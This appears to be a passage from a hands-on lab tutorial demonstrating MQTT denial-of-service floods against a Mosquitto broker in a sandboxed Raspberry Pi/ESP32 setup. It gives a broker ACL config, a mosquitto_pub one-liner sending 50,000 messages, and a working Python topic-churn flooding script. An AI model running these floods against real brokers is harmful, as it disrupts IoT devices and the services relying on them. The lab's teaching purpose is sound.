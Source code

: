 ```conf
# Attacker flood sandbox ONLY (safe space for the demo)
user attacker2
topic write flood/#
# (Optionally, to show client impact on ESP32, TEMPORARILY allow /admin/cmd)
# topic write /admin/cmd
```

Restart:

```bash
sudo systemctl restart mosquitto
```

---

##  Part A — High-rate publish flood (single topic)

### Quick one-liner (simple, fast)

This hammers **one topic** with thousands of messages over **one connection**:

```bash
yes "x" | head -n 50000 | mosquitto_pub -u attacker2 -P attackerpass -h <RPI_IP> -t flood/rate -l -q 1
```

* `-l` reads lines from stdin as messages (single connection, very fast)
* `-q 1` forces **acknowledged delivery**, making the broker track inflight messages (more load)

**What you’ll see**

* `$SYS/…/received` shoots up
* ESP32 should be fine (it isn’t subscribed to `flood/#`)
* Broker CPU climbs; if limits are low you may see **“dropped”** count increase

---

##  Part B — Topic-churn flood (create thousands of topics)

### Python “attacker” (recommended)

This creates **many unique topics** quickly (and can also make them retained):

```python
# attacker_topic_churn.py
import paho.mqtt.client as mqtt, time, argparse

p = argparse.ArgumentParser()
p.add_argument("--host", required=True)
p.add_argument("--user", required=True)
p.add_argument("--pw", required=True)
p.add_argument("--count", type=int, default=10000)
p.add_argument("--retain", action="store_true")
p.add_argument("--qos", type=int, default=0)
p.add_argument("--size", type=int, default=10, help="payload bytes")
args = p.parse_args()

client = mqtt.Client(client_id="flooder", clean_session=True, protocol=mqtt.MQTTv311)
client.username_pw_set(args.user, args.pw)
client.connect(args.host, 1883, 60)

payload = b"A"*args.size
for i in range(args.count):
    topic = f"flood/{i:06d}"
    client.publish(topic, payload, qos=args.qos, retain=args.retain)
client.disconnect()
```